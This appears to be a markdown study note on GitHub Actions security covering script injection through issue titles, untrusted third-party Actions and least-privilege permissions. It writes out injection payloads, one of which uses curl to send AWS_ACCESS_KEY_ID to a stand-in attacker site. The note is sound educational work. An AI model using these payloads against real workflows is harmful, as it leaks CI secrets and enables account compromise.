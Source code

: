 # Section 10: Security & Permissions

## Script Injection
```
A value, set outside a Workflow, is used in a Workflow
Example(s):
    - Issue title used in a Workflow shell command
        -- Workflow / command behavior could be changed
```
Example Steps:
1. Create an issue entitled `Something's wrong!`
```
Workflow(script-injection.yml) runs as expected
```
2. Create an issue entitled `a";echo Got your secrets"`
```
Workflow(script-injection.yml) runs with unexpected behavior:
> echo Got your secrets

How it works:
> `a"` closed Workflow(script-injection.yml)'s `issue_title="`
> `;echo Got your secrets` injected unexpected behavior
> trailing `"` closed Workflow's trailing `"`

Original Command:
> issue_title="${{ github.event.issue.title }}"

Final command:
> issue_title="a";echo Got your secrets""
```
3. Create an issue entitled `a"; curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`
```
How it works:
> Does similar trick as Example 2
> Attacker can extract interpolated environment variable `AWS_ACCESS_KEY_ID` and store it somewhere else
```

## Malicious Third-Party Actions
```
Actions can perform any logic, including potentially malicious logic
Example(s):
    - A third-party Action that reads and exports your secrets
Solution(s):
    - Only use trusted Actions and inspect code of unknown / untrusted authors
```

## Permission Issues
```
Avoid overly permissive permissions (Least Privilege Principle)
Example(s):
    - Only allow checking out code ("read-only")
Solution(s):
    - GitHub Actions supports fine-grained permissions control
```